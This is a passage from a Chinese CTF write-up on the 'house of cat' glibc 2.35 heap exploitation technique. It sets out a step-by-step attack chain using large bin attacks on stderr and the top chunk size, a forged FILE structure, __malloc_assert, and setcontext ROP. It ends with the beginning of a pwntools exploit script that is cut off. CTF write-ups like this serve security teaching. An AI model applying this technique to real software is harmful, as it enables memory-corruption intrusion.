 ![image-20221110125159203](img/article/house_of_cat/image-20221110125159203.png)

只能使用orw，且限制了fd为0

### 利用

无法退出main函数，也没有exit等能造成FSOP的方式，但是stderr不在bss上而在libc中，可以在得到libc地址后large bin attack位于libc中的stderr，再在得到heap地址的基础上修改top chunk的size，这里用large bin attack修改。所以两次edit相当于给了两次large bin attack的机会，一次用来large bin attack stderr，一次用来large bin attack topchunk's size。另外由于对fd的检查，需要close(0)使flag文件的文件描述符为0,或者用mmap函数将flag映射读入。

- 泄露libc地址和堆地址
- large bin attack stderr
- large bin attack topchunk's size
- 伪造fake_IO
- 触发`__malloc_assert`, 进入`_IO_wfile_seekoff`转到`_IO_switch_to_wget_mode`
- setcontext执行rop链(orw需要注意fd应先`close(0)`)

### exp

```python
from pwn import *

# libc = ELF('/home/loorain/glibc-all-in-one/libs/2.35-0ubuntu3.1_amd64/libc.so.6')
libc = ELF('./libc.so')
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./houseofcat')
# io = remote('210.30.97.133',28065)

def p():
    gdb.attach(proc.pidof(io)[0],'b* (_IO_wfile_seekoff)')
    
def login():
    payload = "LOGIN | r00t QWB QWXFadmin"
    io.sendafter('mew mew mew~~~~~~\n',payload)
    # payload = "CAT | r00t QWB QWXF\xFF\xFF\xFF\xFF"
    
```